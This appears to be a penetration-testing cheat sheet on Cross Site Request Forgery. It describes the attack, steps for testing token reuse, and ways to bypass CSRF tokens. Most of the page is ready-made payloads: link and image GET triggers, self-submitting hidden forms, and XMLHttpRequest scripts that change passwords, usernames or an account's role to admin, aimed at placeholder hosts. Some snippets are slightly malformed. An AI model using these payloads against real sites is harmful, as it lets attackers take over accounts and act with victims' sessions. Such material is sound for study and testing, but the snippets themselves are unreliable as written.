 ```yaml
---
description: Cross Site Request Forgery
---
```


# CSRF

An attack where a victim unknowingly causes their browser to perform an unwanted action on a site where they are already authenticated.  This can be caused via the attacker using some form of social engineering to fool a user into opening a malicious link, e-mail, instant message or program which automates the action.  


An unrealistic and simplified example would be a victim clicking on a link like https://paypal.com/user/sadvictim/sendfunds/99999dollars/touser/bad\_daddy or https://facebook.com/user/ignoramus/changepassword?newpassword=123456 , though the links would be portrayed as something else and the victim already has logged-in cookies to those domains.

The vulnerability is available if you can use the same CSRF token across multiple accounts \(check your cookies to find it\). You can build a poc by...  


* Login to account 1
* Go to password change page
* Capture CSRF token
* Logout and login to account 2 
* Go to password change page
* Intercept request with a proxy and replace token

Or perhaps you can figure out the CSRF token if the implementation sucks.  


* Keep length of token consistent and try replacing characters \(Burp has great intruder functionality for this, or just CSRF test for the lazy\)
* Try removing the token from the request
* Try to decode the CSRF token \(typically MD5 or base64\)
* HTML Injection with something like &lt;form action="url.com/acquire\_token.php"&gt;&lt;/textarea&gt;
* Check to see if part of a token is static and cut off the the dynamic part, I've seen bug bounty write-ups where the web app only checked the first part of the token.

**Common Critical Functions for CSRF  
  
+** Add/Upload files  
+ Password change  
+ E-mail change  
+ Transfer money  
+ Delete file  
+ Profile edits

**Via GET request**  
requiring user interaction:  
`<a href="http://site.com/api/setuserpassword=babyboy">Click Me!</a>`  
Not requiring user interaction \(will happen as soon as browser loads\)  
`<img src="http://site.com/api/setuserpassword=badbaby">`

**Via POST request**  


User Interaction Required

```text
<form action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="baddaddy" />
 <input type="submit" value="Submit Request" />
</form>
```

User Interaction Not Required

```text
<form id="autosubmit" action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="badboy" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

**Via json GET**

```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.xyz.com/api/currentuser");
xhr.send();
</script>
```

**Via json POST**  


```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
You will probably want to also try one or both of these
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
_______________________OR______________________________
`<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>``
```


